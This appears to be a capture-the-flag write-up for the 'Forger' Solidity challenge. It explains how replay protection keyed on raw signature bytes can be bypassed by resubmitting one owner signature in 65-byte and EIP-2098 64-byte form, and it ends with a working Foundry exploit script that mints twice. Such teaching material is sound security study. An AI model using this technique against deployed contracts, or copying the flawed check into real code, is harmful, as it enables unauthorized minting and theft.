

## Challenge
### Prompt
This is the Forger, the token printer your mom warned you about.
This ERC-20 hands out mint passes signed by the owner... or so they say.
One golden signature already exists, good for 100 shiny tokens.
The team insists the pass is single-use and perfectly safe.
Your goal? Making the total supply greater than 100 tokens.
Get creative, stay sharp, and may your forgeries be legendary.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.30;

import { ERC20 } from "openzeppelin-contracts-v4.6.0/token/ERC20/ERC20.sol";
import { ECDSA } from "openzeppelin-contracts-v4.6.0/utils/cryptography/ECDSA.sol";

contract Forger is ERC20 {

    error SignatureExpired();
    error SignatureUsed();
    error InvalidSigner(address wrongSigner);
    error OnlyOwner();

    address public owner = 0xC9CAF9e17BBb4e4D27810d97d2C2a467A701e0D5;
    mapping(bytes32 signatureHash => bool used) public signatureUsed;

    constructor() ERC20("Forger Token", "FT") {}

    // It seems like the owner has already signed a mint of tokens for someone:
    // signature = f73465952465d0595f1042ccf549a9726db4479af99c27fcf826cd59c3ea7809402f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb1c
    // amount = 100 ether
    // receiver = 0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e
    // salt = 0x044852b2a670ade5407e78fb2863c51de9fcb96542a07186fe3aeda6bb8a116d
    // deadline = 115792089237316195423570985008687907853269984665640564039457584007913129639935
    function createNewTokensFromOwnerSignature(
        bytes calldata signature,
        address receiver,
        uint256 amount,
        bytes32 salt,           
        uint256 deadline      
    ) public {
        require(block.timestamp <= deadline, SignatureExpired());
        require(!signatureUsed[keccak256(signature)], SignatureUsed());

        bytes32 messageHash = keccak256(abi.encode(
            receiver,
            amount,
            salt,
            deadline
        ));

        address signer = ECDSA.recover(messageHash, signature);

        require(signer == owner, InvalidSigner(signer));

        signatureUsed[keccak256(signature)] = true;

        _mint(receiver, amount);
    }

    function invalidateSignature(bytes calldata signature) external {
        require(msg.sender == owner, OnlyOwner());
        signatureUsed[keccak256(signature)] = true;
    }
}
```
## Background

---

The ECDSA signature you usually see on Ethereum is a 65-byte format concatenating `(r, s, v)`. `r` and `s` are each 32 bytes, and `v` is a 1-byte value that selects the public-key recovery candidate. Normally on Ethereum `v` is expressed as 27 or 28.
Split into its parts, the challenge signature looks like this.
```plain text
r = 0xf73465952465d0595f1042ccf549a9726db4479af99c27fcf826cd59c3ea7809
s = 0x402f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb
v = 0x1c = 28
```

---

OpenZeppelin `ECDSA.recover` handles both the 65-byte `(r, s, v)` format and the 64-byte compact signature of EIP-2098. A compact signature consists of `(r, vs)`, where `vs` packs the parity of `v` into the most significant bit of `s`.
If `v=27` the parity is 0, and if `v=28` the parity is 1. The signature in this challenge sets the most significant bit of `s` to 1 and can also be expressed in the following compact form.
```plain text
vs = 0xc02f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb
```
The byte strings of the 65-byte signature and the 64-byte signature differ, but the result of `ECDSA.recover(messageHash, signature)` is the same owner.
## Challenge code analysis

---

The mint message is built like this.
```solidity
bytes32 messageHash = keccak256(abi.encode(
    receiver,
    amount,
    salt,
    deadline
));

address signer = ECDSA.recover(messageHash, signature);
```
Mint authorization is verified against the message formed by `abi.encode`-ing `receiver`, `amount`, `salt`, `deadline` and then hashing with `keccak256`. The challenge comment already gives all the values the owner signed.
So we don't need a new message. We insert the given `receiver`, `amount`, `salt`, `deadline` as-is and submit a signature that recovers to the owner.

---

Replays are blocked by the `signatureUsed` check.
```solidity
require(!signatureUsed[keccak256(signature)], SignatureUsed());
...
signatureUsed[keccak256(signature)] = true;
```
Replay prevention is keyed on the hash of the `signature` byte string itself, not on the message hash or the mint parameters. Two signatures with the same meaning but different bytes are recorded under different keys.
A 65-byte `(r, s, v)` signature and a 64-byte `(r, vs)` signature recover the same signer for the same message, but their `keccak256(signature)` values differ. So both pass the `signatureUsed` check.

---

The goal condition:
```solidity
_mint(receiver, amount);
```
A single call mints only `100 ether`. Since the goal is to make the total supply greater than 100, we submit the same owner signature twice in different formats.
This is not the classic ECDSA malleability that uses `(r, n-s, 55-v)`. OpenZeppelin blocks high-`s` signatures. Here we bypass it by serializing the same low-`s` signature differently, in the standard 65-byte format and in the EIP-2098 64-byte format.
## Solution
The given signature is already in the 65-byte standard format. Call it `canonicalSignature`.
Since `v=28`, we set the most significant bit of `s` to 1 to make `vs`. Concatenating this with `r` gives a 64-byte `compactSignature`.
The two signatures have different byte strings.
```plain text
canonicalSignature = abi.encodePacked(r, s, v)  // 65 bytes
compactSignature   = abi.encodePacked(r, vs)    // 64 bytes
```
But both recover the owner from the same `messageHash`. So if we mint once with `compactSignature` and once more with `canonicalSignature`, the total supply becomes `200 ether`.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "forge-std/Script.sol";

interface IForger {
    function createNewTokensFromOwnerSignature(
        bytes calldata signature,
        address receiver,
        uint256 amount,
        bytes32 salt,
        uint256 deadline
    ) external;
    function totalSupply() external view returns (uint256);
}

contract Sol39 is Script {
    address private constant RECEIVER = 0x1D96F2f6BeF1202E4Ce1Ff6Dad0c2CB002861d3e;
    uint256 private constant AMOUNT = 100 ether;
    bytes32 private constant SALT = 0x044852b2a670ade5407e78fb2863c51de9fcb96542a07186fe3aeda6bb8a116d;
    uint256 private constant DEADLINE = type(uint256).max;

    bytes32 private constant R = hex"f73465952465d0595f1042ccf549a9726db4479af99c27fcf826cd59c3ea7809";
    bytes32 private constant S = hex"402f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb";
    bytes32 private constant VS = hex"c02f4f4be134566025f4db9d4889f73ecb535672730bb98833dafb48cc0825fb";
    uint8 private constant V = 28;

    function run() external {
        uint256 privateKey = vm.envUint("PRIVATE_KEY");
        IForger forger = IForger(vm.envAddress("FORGER_INSTANCE"));
        uint256 initialSupply = forger.totalSupply();

        bytes memory compactSignature = abi.encodePacked(R, VS);
        bytes memory canonicalSignature = abi.encodePacked(R, S, V);

        vm.startBroadcast(privateKey);
        forger.createNewTokensFromOwnerSignature(compactSignature, RECEIVER, AMOUNT, SALT, DEADLINE);
        forger.createNewTokensFromOwnerSignature(canonicalSignature, RECEIVER, AMOUNT, SALT, DEADLINE);
        vm.stopBroadcast();

        require(forger.totalSupply() > initialSupply + AMOUNT, "total supply did not exceed one mint");
    }
}
```

